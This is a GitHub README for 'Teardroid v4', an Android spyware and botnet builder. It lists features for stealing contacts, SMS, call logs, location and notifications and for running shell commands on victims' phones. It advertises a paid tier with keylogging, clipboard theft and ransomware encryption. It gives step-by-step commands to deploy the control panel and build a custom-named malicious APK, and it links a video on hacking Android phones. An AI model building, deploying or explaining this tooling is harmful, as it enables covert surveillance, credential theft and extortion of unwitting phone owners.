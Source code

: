 # :robot: Teardroid v4

![Screenshot](https://raw.githubusercontent.com/ScRiPt1337/Teardroid-phprat/master/img/IMG-20220122-WA0000_RdKN5Rv3U.jpg)

🇮🇳 It's easy to use android botnet work without port forwarding, vps and android studio

[![GitHub issues](https://img.shields.io/github/issues/ScRiPt1337/Teardroid-phprat)](https://github.com/ScRiPt1337/Teardroid-phprat/issues)
[![Twitter](https://img.shields.io/twitter/url?style=social&url=https%3A%2F%2Ftwitter.com%2Fhacksec42)](https://twitter.com/intent/tweet?text=Wow:&url=https://github.com/ScRiPt1337/Teardroid-phprat/)
[![Hacksec](https://img.shields.io/badge/Teardroid-4.0-red)](https://github.com/ScRiPt1337/Teardroid-phprat/)

### :rocket: Features

- Retrieve Contact
- Retrieve SMS
- Retrieve running Services
- Retrieve Device Location (:worried: Only work when the app is open on newer devices)
- Retrieve Call Logs
- Run Shell Command
- Change Wallpaper
- Send SMS
- Make Call
- Get Installed Apps
- Download File
- Read Notification
- Auto-Start

### :warning: Requirement

- Python3
- Java
- Linux or Windows os

### Java version i used

```bash
$ java -version
openjdk version "11.0.13" 2021-10-19
OpenJDK Runtime Environment (build 11.0.13+8)
OpenJDK 64-Bit Server VM (build 11.0.13+8, mixed mode)
```

### How to setup

- Set up an account at [deta.sh](https://web.deta.sh/) its free.
- Click Deploy to Deta Button to configure your control panel.
- Clone Teardroid-phprat repo with the following command.

```bash
$ git clone https://github.com/ScRiPt1337/Teardroid-phprat
```

- cd in the Teardroid-phprat directory, then type the command below to install all dependencies

```bash
$ pip install -r requirements.txt
```

- Run the following command to see the options that we can use with the builder.

```bash
$ python Teardroid.py
[+] Checking Python Version
[+] Python Version : 3.10 ✓
  ______                    __           _     __         __ __
 /_  __/__  ____ __________/ /________  (_)___/ /  _   __/ // /
  / / / _ \/ __ `/ ___/ __  / ___/ __ \/ / __  /  | | / / // /_
 / / /  __/ /_/ / /  / /_/ / /  / /_/ / / /_/ /   | |/ /__  __/
/_/  \___/\__,_/_/   \__,_/_/   \____/_/\__,_/    |___/  /_/


Teardroid v4.0 - A tool to build teardroid spyware for Android devices. 🕷
Contact us : https://t.me/script1337 🚀
usage: Teardroid.py [-h] [-v] [-b]

options:
  -h, --help     show this help message and exit
  -v, --version  Version of Teardroid 🥴
  -b , --build   Build Teardroid with custom name [ex: Teardroid.py -b teardroid] 😷
```

- To create an apk execute the following command.

```bash
$ python Teardroid.py -b your_app_name
```

- It will prompt you with your Control Panel url enter your deta micro URL (without / at the end of the url).
- You will also be prompted for the title and text of the notification. Enter what you want to display on the notification.
- DONE

[![Deploy](https://button.deta.dev/1/svg)](https://go.deta.dev/deploy?repo=https://github.com/ScRiPt1337/Teardroidv4_api)

### :city_sunset: Build using bot

- Build Teardroid using [teardroid_bot](https://t.me/teardroid_bot) in telegram

### Manually deploy the Teardroid control panel

- Set up an account at [deta.sh](https://web.deta.sh/)
- Install [Deta Cli](https://docs.deta.sh/docs/cli/install)
- Logging in to Deta via the CLI
- Create a new Python Micro
- Clone [Teardroidv4_api](https://github.com/ScRiPt1337/Teardroidv4_api) repo
- Move all Teardroidv4_api Files to your deta micro folder.
- Deploy the Control panel using the following command.

```bash
$ deta deploy
```

### Dashboard

- visit : https://{your server url}/v4/overview
- defualt username/password is : admin/admin

### Screenshot

- ![Builder](https://raw.githubusercontent.com/ScRiPt1337/Teardroid-phprat/master/img/Builder_3oDdS0Tr7.png)

- ![Overview](https://raw.githubusercontent.com/ScRiPt1337/Teardroid-phprat/master/img/2022-01-27_22-29_gYkI6tIvGmG.png)

- ![TaskManager](https://raw.githubusercontent.com/ScRiPt1337/Teardroid-phprat/master/img/2022-01-27_22-49_RakvqeLWG.jpeg)

### Demo Video

- Video : [how to hack android phone using Teardroid v4](https://www.instagram.com/tv/CZSu4y0osHo/?utm_source=ig_web_button_share_sheet)

### :atm: Teardroid PRO

- Go to telegram and search @teardroid_bot to know how you can get it

#### :stars: PRO Features

- Get users key strokes (whatever they type in there keyboard like username password etc)
- Get users clipboard data (get whatever is copied in there clipboard)
- Add webview in the app
- Encrypt files with AES encryption (work as ransomware)
- Robust connection with server we will setup everything for you on aws or any other self hosting server
- 24x7 support for 3 month (any kind of help or support related to teardroid will be given by our team)

### Support me

[!["Buy Me A Coffee"](https://www.buymeacoffee.com/assets/img/custom_images/orange_img.png)](https://www.buymeacoffee.com/script1337x)

### Beware from scam

- Make sure the bot username is @teardroid_bot beware from scam
- I am only available on telegram and script1337 is my only account please double check the username

### Contact info

- Email : script@hacksec.in
- Discord : https://discord.gg/5CjQacc
- Telegram : https://t.me/script1337
- Visit our website : https://www.hacksec.in
- Visit Teardroid Website : https://teardroidv4.deta.dev
